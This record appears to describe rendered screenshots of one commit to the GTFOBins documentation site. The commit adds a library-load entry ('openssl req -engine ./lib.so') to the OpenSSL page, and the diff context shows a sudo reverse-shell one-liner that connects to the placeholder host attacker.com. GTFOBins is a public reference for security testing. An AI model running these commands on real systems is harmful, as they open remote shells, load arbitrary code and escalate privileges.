

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 900 px high, scrolled down 1497 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add library load section to OpenSSL

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -79,4 +79,6 @@ functions:
         RHOST=attacker.com
         RPORT=12345
         mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+  library-load:
+    - code: openssl req -engine ./lib.so
 ---
```
